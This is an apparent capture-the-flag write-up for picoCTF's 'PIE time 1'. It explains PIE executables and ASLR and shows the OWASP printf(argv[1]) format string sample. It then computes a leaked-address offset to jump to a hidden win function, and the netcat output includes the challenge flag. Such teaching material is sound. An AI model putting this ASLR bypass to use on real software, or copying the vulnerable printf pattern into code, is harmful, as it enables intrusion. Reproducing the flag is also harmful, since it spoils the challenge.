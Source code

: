 # PicoCTF: PIE time 1

## Context

We are provided with a compiled binary and the source code (`vuln` and `vuln.c`), as well as a complimentary server and port to connect to via netcat. We only connect via netcat when we are ready to get the flag. 

When we do `./vuln` we are prompted to enter an address. If the address is not correct, we segfault:
```text
mms2379@spoc:~/ctf/pie_time$ ./vuln
Address of main: 0x58e94163433d
Enter the address to jump to, ex => 0x12345: 0x0
Your input: 0
Segfault Occurred, incorrect address.
```

## Background Information: PIE executables and format string vulnerabilities

Executables can come in different forms, notably PIE (position independent executable) and no-PIE. If we compile a PIE executable, it means that that whole chunk of code for the program can be placed anywhere in memory. This enables ASLR (address space layout randomization) which randomizes the memory address of key components of our program, like where its stack, heap, etc. begin. A no-PIE executable's code will be placed at a fixed address. That means that we cannot use ASLR.

Below, I've provided examples of objdumped PIE and no-PIE executables. Note how the no-PIE executable starts at address 0x401000, while the PIE executable starts at 0x1000 so it's able to placed at a random memory address later.

``` text
mms2379@spoc:~/temp/studying/linking2$ objdump -d main-no-pie

main-no-pie:     file format elf64-x86-64


Disassembly of section .init:

0000000000401000 <_init>:
  401000:       f3 0f 1e fa             endbr64 
  401004:       48 83 ec 08             sub    $0x8,%rsp
  401008:       48 8b 05 e9 2f 00 00    mov    0x2fe9(%rip),%rax        # 403ff8 <__gmon_start__@Base>
  40100f:       48 85 c0                test   %rax,%rax
  401012:       74 02                   je     401016 <_init+0x16>
  401014:       ff d0                   call   *%rax
  401016:       48 83 c4 08             add    $0x8,%rsp
  40101a:       c3                      ret
...

```

```text
mms2379@spoc:~/temp/studying/linking2$ objdump -d main-dyn

main-dyn:     file format elf64-x86-64


Disassembly of section .init:

0000000000001000 <_init>:
    1000:       f3 0f 1e fa             endbr64 
    1004:       48 83 ec 08             sub    $0x8,%rsp
    1008:       48 8b 05 d9 2f 00 00    mov    0x2fd9(%rip),%rax        # 3fe8 <__gmon_start__@Base>
    100f:       48 85 c0                test   %rax,%rax
    1012:       74 02                   je     1016 <_init+0x16>
    1014:       ff d0                   call   *%rax
    1016:       48 83 c4 08             add    $0x8,%rsp
    101a:       c3                      ret
  ...

```

A format string vulnerability takes advantage of C's `printf(...)` to leak memory addresses. For example, if a program asks for user input and then prints that input back to the user using `printf(...)`, the user can supply a format string (`%s`, `%lx`, `%p`, etc.) so that their provided information gets printed in that form. Note that this is only possible when the `printf(...)` function **does not** already have a format string specifier. See the example below from OWASP.

``` C
#include  <stdio.h> 
void main(int argc, char **argv)
{
	// This line is safe
	printf("%s\n", argv[1]);

	// This line is vulnerable
	printf(argv[1]);
}
```
`./example "Hello World %p %p %p %p %p %p"` will result in: `Hello World 000E133E 000E133E 0057F000 CCCCCCCC CCCCCCCC CCCCCCCC`.

## Vulnerability

Recall that we are prompted to enter an address:

```text
mms2379@spoc:~/ctf/pie_time$ ./vuln
Address of main: 0x58e94163433d
Enter the address to jump to, ex => 0x12345: 0x0
Your input: 0
Segfault Occurred, incorrect address.
```

Note that we are given the address of the `main` function. We may take a closer look at the source code. We see that we have a `main()` function and a `win` function that is not called anywhere in the program. We also see that `win` will give us our flag. (Full source code can be found in `pie_time1/vuln.c`)

```C
int win() {
  FILE *fptr;
  char c;

  printf("You won!\n");
  // Open file
  fptr = fopen("flag.txt", "r");
  if (fptr == NULL)
  {
      printf("Cannot open file.\n");
      exit(0);
  }

  // Read contents from file
  c = fgetc(fptr);
  while (c != EOF)
  {
      printf ("%c", c);
      c = fgetc(fptr);
  }

  printf("\n");
  fclose(fptr);
}

int main() {
  signal(SIGSEGV, segfault_handler);
  setvbuf(stdout, NULL, _IONBF, 0); // _IONBF = Unbuffered
  ...
```

Therefore, we conclude that we must somehow call the `win` function in order to get our flag. If this were a no-PIE exectuable, then we could just enter the address of the `win` function. Unfortunatley, `vuln` is a PIE executable:

```
mms2379@spoc:~/ctf/pie_time$ file vuln
vuln: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=0072413e1b5a0613219f45518ded05fc685b680a, for GNU/Linux 3.2.0, not stripped
```

This means that we will have to calculate the address of `win` based on some other address. Recall that we are given the address of `main`. Therefore, we conclude that we must use the address at `main` to call `win`.

## Exploitation 

Taking a look at the disassembly of `vuln`, we can manually calculate the distance in memory between `win` and `main`. (See `pie_time1/vuln_dump.txt` for the full disassembly)

```text
00000000000012a7 <win>:
    12a7:	f3 0f 1e fa          	endbr64 
    12ab:	55                   	push   %rbp
    12ac:	48 89 e5             	mov    %rsp,%rbp
	...

000000000000133d <main>:
    133d:	f3 0f 1e fa          	endbr64 
    1341:	55                   	push   %rbp
    1342:	48 89 e5             	mov    %rsp,%rbp
	...
```

The difference in hex between 0x12a7 and 0x133d is 0x96. So now, every time we execute `vuln` and get our address for `main`, we may simply calculate `main` - 0x96 = address to jump to:

```text
mms2379@spoc:~/ctf/pie_time$ nc rescued-float.picoctf.net 54738
Address of main: 0x5bee3664233d
Enter the address to jump to, ex => 0x12345: 0x5bee366422a7
Your input: 5bee366422a7
You won!
picoCTF{b4s1c_p051t10n_1nd3p3nd3nc3_a267144a}
```

## Remediation

The remediation for this is pretty simple: don't give out addresses in PIE executables! The whole point of PIE is to enable ASLR and make it **harder** to infiltrate, but by providing a reference address and source code, it can be easy to calculate the addresses of other functions and get to whatever function you'd like.

# Sources/Credits

Written by Madalina Stoicov

- https://owasp.org/www-community/attacks/Format_string_attack 
